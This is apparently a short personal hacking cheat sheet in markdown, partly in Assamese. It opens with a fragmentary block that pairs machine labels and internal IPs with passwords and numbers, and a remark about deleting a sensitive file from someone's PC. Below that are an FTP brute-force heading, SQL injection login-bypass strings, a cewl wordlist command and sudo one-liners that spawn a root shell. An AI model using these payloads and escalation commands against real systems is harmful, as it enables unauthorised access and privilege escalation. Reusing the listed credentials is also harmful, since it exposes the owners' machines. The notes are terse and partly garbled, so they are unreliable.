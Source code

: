 ```
H.M-৭
Secret123

H.M-২০
IP 172.16.0.40

H.M-৪
pass- test
4700056

H.M-৫ 450989878899 

Ejon alx namor manuhjone teur PCt sensitive file thoi dlete koribo pahorile:
H.M-১২ F/N 201010988818

H.M-১৯ Android
 IP 172.16.0.38
   1876890
```

### FTP Burteforce:
pass wordlist in the windows system. After the login FTP server

### SQL payloads
```
admin' --
admin' #
admin'/*
' or 1=1--
' or 1=1#
' or 1=1/*
') or '1'='1--
') or ('1'='1—
```
### Making custom wordlist from website keywords:
   $ cewl example.com -m 5 -w words.txt
   
   m= pass lenght
   w= output file
   
### Root privilege Escln
  ```
  $ sudo man man
  $ !/bin/bash
  $ sudo awk 'BEGIN {system("/bin/bash")}'
```
